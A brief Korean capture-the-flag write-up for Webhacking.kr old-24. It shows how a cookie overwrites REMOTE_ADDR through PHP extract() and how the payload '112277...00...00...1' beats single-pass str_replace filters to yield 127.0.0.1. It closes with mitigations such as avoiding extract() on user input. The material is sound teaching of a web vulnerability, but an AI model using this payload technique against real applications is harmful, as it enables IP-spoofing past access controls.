


# Webhacking.kr old-24 Writeup

## 문제 정보
- $ip == "127.0.0.1" 만들기 목표

## 취약점 / 핵심 아이디어
extract($_COOKIE) → 쿠키로 REMOTE_ADDR 변수 덮어쓰기 가능 (IP 위조)
str_replace는 한 번만 실행 → 삭제로 양옆이 붙으며 목표 문자열이 재조립됨

## 분석 과정
필터 순서: ..→. / 12제거 / 7.제거 / 0.제거
127.0.0.1을 그대로 넣으면 다 지워짐 → 지워질 조각을 미리 끼워 넣어 삭제 후 조립되게 설계

## 풀이과정
연산	    결과
입력	    112277...00...00...1
..→.	    112277..00..00..1
12 제거	    1277..00..00..1
7. 제거	    127.00..00..1
0. 제거	    127.0.0.1 

## Payload
Cookie: REMOTE_ADDR=112277...00...00...1

## 대안

extract() 쓰지않기. 사용자입력에 extract쓰면 변수임의덮어쓰기가 가능
$_COOKIE['REMOTE_ADDR'] 처럼 명시적으로 접근해야함

신뢰할 수 없는값으로 IP판단 하지않기

문자열 화이트리스트 검증
